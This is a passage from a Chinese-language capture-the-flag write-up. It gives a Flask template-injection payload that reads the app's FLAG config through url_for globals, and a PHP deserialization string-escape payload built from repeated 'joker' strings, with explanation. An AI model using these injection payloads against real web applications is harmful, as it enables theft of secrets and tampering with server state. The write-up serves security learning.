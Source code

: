 python从环境变量里读取了`flag`，添加到了flask的配置变量里，读取flask变量

::: v-pre
```python
url/redflag/{{url_for.__globals__['current_app'].config['FLAG']}}
```
:::

![17](/medias/buildCTF/17.png)

## Why_so_serials?

反序列化过程使用字符替换，导致字符串逃逸，可以让我们构造的字符串变成真正的反序列化的一部分，达到篡改变量值的效果

一个`joker`替换为`batman`时，变量Wayne的长度会增加1，但是Wayne的值是固定的，所以最终Wayne的长度会溢出n个joker的长度，那么就可以把原有的字符串扔掉，把我们给的作为反序列化的一部分，达到逃逸的效果

```php
$payload  = new Gotham('1','1');
echo serialize($payload);
# 正常：O:6:"Gotham":3:{s:5:"Bruce";s:1:"1";s:5:"Wayne";s:1:'1'";s:5:"crime";b:1;}

# 后面原有的";s:5:"crime";b:1;}部分需要扔掉，总共19个字符，所以构造19个joker，再添加上我们需要的crime的值
# O:6:"Gotham":3:{s:5:"Bruce";s:1:"1";s:5:"Wayne";s:1:"jokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjoker";s:5:"crime";b:1;}
$Bruce = '1';
$Wayne = 'jokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjoker";s:5:"crime";b:1;}';
```

payload：`url?Bruce=1&Wayne=jokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjoker";s:5:"crime";b:1;}`

